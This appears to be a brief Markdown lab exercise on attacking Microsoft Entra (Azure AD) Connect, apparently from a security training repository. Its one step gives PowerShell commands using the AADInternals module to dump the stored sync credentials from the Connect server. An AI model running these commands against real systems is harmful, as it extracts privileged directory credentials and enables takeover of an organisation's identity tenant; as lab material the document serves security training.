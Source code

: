 ## lab 2 - Entra Connect Attacks
1. Dumping and Extarcting Entra (Azure AD) Connect credentials:
    1. run powershell as admin on the server where Entra Connect is installed
    2. execute:
        ```powershell
        Import-Module AADInternals
        Get-AADIntSyncCredentials
        ```

